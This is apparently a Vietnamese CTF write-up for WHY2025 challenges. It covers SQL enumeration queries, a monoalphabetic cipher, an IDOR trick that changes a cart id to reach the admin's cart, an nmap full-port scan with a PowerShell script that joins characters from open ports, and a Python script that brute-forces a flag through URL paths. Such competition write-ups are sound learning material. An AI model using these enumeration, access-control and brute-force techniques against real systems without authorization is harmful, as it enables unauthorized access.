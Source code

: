 # WHY2025 CTF

# Web/planets

- SELECT @@version, database()
- SELECT table_name FROM information_schema.tables WHERE table_schema = database()
- SELECT * FROM abandoned_planets

# Crypto/Substitute Teacher

- [https://www.dcode.fr/monoalphabetic-substitution](https://www.dcode.fr/monoalphabetic-substitution)
    
    ![image](https://hackmd.io/_uploads/SyTeKrVugl.png)
    

# Web/Shoe Shop 1.0

- Tạo 1 acc
- Thêm 1 đồ vào phần cart
- vào Cart, sửa id thành `1`
    
    ![image](https://hackmd.io/_uploads/B1W6FH4uxg.png)
    

> Note: Không hiểu lắm nhưng mà có thể là, đầu bài có nói là trong giỏ hàng của admin có cái đôi giày đặc biệt đấy, thì khi mình đặt hàng và vào giỏ hàng của mình sẽ được cấp 1 cái id bất kỳ, thì khi đấy vì là giỏ của admin thì thường sẽ là id=1 hoặc số gần đầu, nên khi chỉnh thành id thành 1 thì có được flag như vậy. Cái này gọi là access control vul thì phải.
> 

# Network/Scan Me

- Như yêu cầu đầu bài thì scan nó:

```
nmap -p- scanme.ctf.zone

```

- kết quả:

```
Starting Nmap 7.95 ( <https://nmap.org> ) at 2025-08-09 11:14 SE Asia Standard Time
Nmap scan report for scanme.ctf.zone (52.211.134.167)
Host is up (0.22s latency).
rDNS record for 52.211.134.167: 167.134.211.52.in-addr.arpa
Not shown: 65495 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    filtered ssh
2454/tcp  open     indx-dds
3871/tcp  open     avocent-adsap
7293/tcp  open     unknown
10962/tcp open     unknown
15160/tcp open     unknown
17983/tcp open     unknown
18395/tcp open     unknown
18728/tcp open     unknown
19185/tcp open     unknown
20447/tcp open     unknown
22258/tcp open     unknown
23990/tcp open     unknown
24196/tcp open     unknown
25161/tcp open     unknown
26525/tcp open     unknown
29115/tcp open     unknown
29172/tcp open     unknown
29762/tcp open     unknown
35486/tcp open     unknown
35725/tcp open     unknown
35943/tcp open     unknown
36650/tcp open     unknown
37299/tcp open     unknown
38897/tcp open     unknown
39461/tcp open     unknown
39961/tcp open     unknown
40632/tcp open     unknown
42747/tcp open     unknown
44426/tcp open     unknown
46045/tcp open     unknown
55283/tcp open     unknown
55305/tcp open     unknown
57932/tcp open     unknown
57937/tcp open     unknown
59220/tcp open     unknown
63931/tcp open     unknown
64199/tcp open     unknown
64471/tcp open     unknown
65534/tcp open     unknown

```

- Check thử 1 vài công thì mỗi cổng nó sẽ in ra 1 ký tự, vậy thì viết script như này để ghép tất cả các ký tự các cổng

```powershell
$Target = "scanme.ctf.zone"
$Ports = @(2454, 3871, 7293, 10962, 15160, 17983, 18395, 18728, 19185, 20447, 22258, 23990, 24196, 25161, 26525, 29115, 29172, 29762, 35486, 35725, 35943, 36650, 37299, 38897, 39461, 39961, 40632, 42747, 44426, 46045, 55283, 55305, 57932, 57937, 59220, 63931, 64199, 64471, 65534)
$Timeout = 1500

Write-Host "Bắt đầu thu thập các ký tự từ các cổng..." -ForegroundColor Green

$results = @{}
$SortedPorts = $Ports | Sort-Object

foreach ($port in $SortedPorts) {
    try {
        $tcpClient = New-Object System.Net.Sockets.TcpClient
        $connectTask = $tcpClient.ConnectAsync($Target, $port)

        if ($connectTask.Wait($Timeout)) {
            if ($tcpClient.Connected) {
                $stream = $tcpClient.GetStream()
                $stream.ReadTimeout = $Timeout

                $buffer = New-Object byte[] 1024
                $bytesRead = $stream.Read($buffer, 0, $buffer.Length)

                if ($bytesRead -gt 0) {
                    $response = [System.Text.Encoding]::ASCII.GetString($buffer, 0, $bytesRead).Trim()
                    $results[$port] = $response
                }
            }
        }
    } catch {
    } finally {
        if ($tcpClient) {
            $tcpClient.Close()
        }
    }
}

Write-Host "Thu thập hoàn tất. Đang ghép chuỗi..." -ForegroundColor Green

$flag = ""
foreach ($port in $SortedPorts) {
    if ($results.ContainsKey($port)) {
        $flag += $results[$port]
    }
}

Write-Host "-----------------------------------------"
Write-Host "Chuỗi ký tự ghép được là:"
Write-Host $flag -ForegroundColor Yellow
Write-Host "-----------------------------------------"

```

# Web/Buster

```python
import requests
import string
import sys

# --- Cấu hình ---
# URL cơ sở, không bao gồm phần flag
base_url = "<https://buster.ctf.zone/>"

# Phần flag đã biết mà bạn đã tìm ra
known_flag = ""

# Tập ký tự để thử. Thường bao gồm chữ thường, số, và một vài ký tự đặc biệt.
# Thêm cả dấu '}' để vòng lặp có thể kết thúc.
charset = "abcdef}" + string.digits
# string.ascii_lowercase

print(f"[*] Bắt đầu dò tìm flag từ: {base_url}{known_flag}")
print("[*] Tập ký tự sử dụng: " + charset)
print("-" * 30)

# Vòng lặp chính, tiếp tục cho đến khi tìm thấy dấu '}'
while not known_flag.endswith('}'):
    found_char_for_iteration = False
    for char in charset:
        # In ra ký tự đang thử trên cùng một dòng để không làm rối màn hình
        # sys.stdout.flush() đảm bảo nó được in ra ngay lập tức
        print(f"\\r[+] Đang thử: {known_flag}{char}", end="")
        sys.stdout.flush()

        # Xây dựng URL để kiểm tra
        test_url = f"{base_url}{known_flag}{char}"

        try:
            # Thực hiện yêu cầu GET
            response = requests.get(test_url)

            # Tăng hiệu suất bằng cách chỉ kiểm tra mã trạng thái trước
            if response.status_code == 200:
                # Kiểm tra điều kiện trong nội dung HTML
                if "Wrong way!" not in response.text:
                    # Tìm thấy ký tự đúng!
                    known_flag += char
                    # In kết quả đã tìm thấy ra một dòng mới
                    print(f"\\r[!] Tìm thấy ký tự tiếp theo: '{char}' -> Cờ hiện tại: {known_flag}")
                    found_char_for_iteration = True
                    break # Thoát khỏi vòng lặp for, bắt đầu lại với ký tự mới

        except requests.exceptions.RequestException as e:
            print(f"\\n[!] Lỗi mạng: {e}")
            print("[!] Thoát chương trình.")
            exit()

    # Nếu chạy hết vòng lặp for mà không tìm thấy ký tự nào
    if not found_char_for_iteration and not known_flag.endswith('}'):
        print(f"\\n[!] Không thể tìm thấy ký tự tiếp theo sau '{known_flag[-1]}'.")
        print("[!] Hãy thử mở rộng tập ký tự (ví dụ: thêm chữ hoa A-Z).")
        exit()

print("-" * 30)
print(f"[SUCCESS] Đã tìm thấy cờ hoàn chỉnh: {known_flag}")

```

![image](https://hackmd.io/_uploads/SyMI4oN_gl.png)
